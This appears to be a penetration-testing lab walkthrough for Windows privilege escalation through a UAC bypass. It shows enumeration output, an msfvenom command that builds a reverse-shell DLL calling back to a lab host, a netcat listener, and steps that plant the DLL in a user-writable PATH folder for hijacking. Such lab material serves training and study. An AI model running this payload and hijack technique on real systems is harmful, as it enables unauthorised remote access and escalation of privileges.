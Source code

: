 Members

-------------------------------------------------------------------------------
Administrator
mrb3n
wksadmin
The command completed successfully.

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1

REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x0

[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      18363  0

cmd /c echo %PATH%
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\htb-student\AppData\Local\Microsoft\WindowsApps;

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.26 LPORT=8443 -f dll > srrstr.dll
nc -lvnp 8443

copy n:\srrstr.dll

move srrstr.dll C:\Users\htb-student\AppData\Local\Microsoft\WindowsApps\srrstr.dll

rundll32 shell32.dll,Control_RunDLL C:\Users\htb-student\AppData\Local\Microsoft\WindowsApps\srrstr.dll

C:\Users\htb-student>whoami
whoami
academy-winlpe-\htb-student

C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
Access is denied.
